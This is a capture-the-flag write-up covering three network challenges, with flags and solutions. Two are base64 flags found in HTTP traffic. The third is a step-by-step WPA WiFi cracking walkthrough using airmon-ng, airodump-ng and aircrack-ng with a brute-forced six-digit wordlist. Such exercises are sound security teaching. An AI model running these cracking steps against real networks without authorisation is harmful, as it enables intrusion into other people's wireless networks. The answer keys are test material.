 ```c
hari@arch:~/ctf$ tree
.
└── a-work-by
    ├── ashil-george-james
    └── hari-narayan-mr
```

---
# Index

| question | category | tool        | difficulty |
| -------- | -------- | ----------- | ---------- |
| Q1       | network  | wireshark   | easy       |
| Q2       | network  | wireshark   | medium     |
| Q3       | network  | aircrack-ng | hard++     |

---
<div style="page-break-after: always;"></div>
# Level 1

### Key to Freedom
You installed a pirated game, and your laptop got infected by a ransom-demanding virus. It promised a key to unlock your computer, but you refused to pay. Instead, you discovered that the key was hidden in an HTML file linked to the ransom message. With help from your nerdy friend, who extracted details from the network, it was up to you to analyze the data and find the key. You wrap it in CTF{enterthekeyhere} and submit it to reclaim your laptop. Time is running out! Good luck!

[Attachment](https://drive.google.com/file/d/1tdNATIAgun1URRiYTZe59wEuvR_ZtJZn/view?usp=drive_link)

Filter by `HTTP` in wireshark and decode the base64 encoded key inside \<p> tag

```html
<p>Q1RGe2hlcmVpc215c2VjcmV0Y29kZX0K</p>
```

`Q1RGe2hlcmVpc215c2VjcmV0Y29kZX0K` in `base64` is `CTF{hereismysecretcode}`

---
<div style="page-break-after: always;"></div>
# Level 2

### Penny’s Pursuit
Sheldon, fed up with his friends, decided to take a getaway and changed the apartment Wi-Fi password to something absurdly complicated, leaving a note that said, “A hint to the password is in a PCAP file uploaded to the drive.” Furious at the thought of losing her Netflix access, Penny grabbed her laptop and her detective cap. “Great, now I have to crack this Wi-Fi mystery!” she huffed, diving into packet analysis, determined to solve it before Sheldon returned. Good luck!

[Attachment](https://drive.google.com/file/d/1f9V3imref7YC_1Gn55zpCMKQDi8_C6-e/view?usp=drive_link)

This time the key is stored in a request header, Search for `X-Custom-Header` in `HTTP` Requests

```go
package main

import (
    "fmt"
    "net/http"
)

func handler(w http.ResponseWriter, r *http.Request) {
    // Set a custom header
    w.Header().Set("X-Custom-Header", "Q1RGe3lvdWFyZWJyYXZlfQo=")
    
    // Set the content type to text/plain
    w.Header().Set("Content-Type", "text/plain")
    
    // Write a response
    // Hint provided so the question won't be too hard!
    fmt.Fprintln(w, "HINT: SEARCH FOR THE CUSTOM HEADER")
}

func main() {
    http.HandleFunc("/", handler)
    
    // Start the server on port 80
    fmt.Println("Starting server on :80...")
    if err := http.ListenAndServe(":80", nil); err != nil {
        fmt.Println("Error starting server:", err)
    }
}
```

`Q1RGe3lvdWFyZWJyYXZlfQo=` in `base64`  is`CTF{youarebrave}`

---
<div style="page-break-after: always;"></div>
# Level 3

## Pincode Panic
You're currently at Quahog Hospital, and Stewie Griffin is trying to kill you. He asks for the pincode of Quahog, but you don't know it. However, you've heard that the hospital's Wi-Fi password is the same as the pincode. With a Linux computer in front of you, use brute force to find the pincode of Quahog and enclose it in the format CTF{ABCDEF} to save your life.

Example, `CTF{123456}`

 1. Prepare the dictionary using `dict-gen.py`
 
```python	
for i in range(1000000):
    print(str(i).zfill(6))
```

2. Example output `dictionary.txt`

```
000000
000001
000002
000003
...
...
999997
999998
999999
```

3. Switch to superuser using  `su`

4. Switch WiFi card to `monitor` mode
	`airmon-ng start wlan0`

5. Monitor all the networks
	`sudo airodump-ng wlan0mon`

6. Target the network (with appropriate channel and BSSID)
	`sudo airodump-ng wlan0mon --channel 6 --bssid AA:BB:CC:DD:EE:FF -w output`

7. Wait for reconnection

8. Bruteforce the `WPA` key with `aircrack-ng`
	`sudo aircrack-ng -w dictionary.txt -b AA:BB:CC:DD:EE:FF output-01.cap`

9. Wrap the password in the format `CTF{ABCDEF}`

---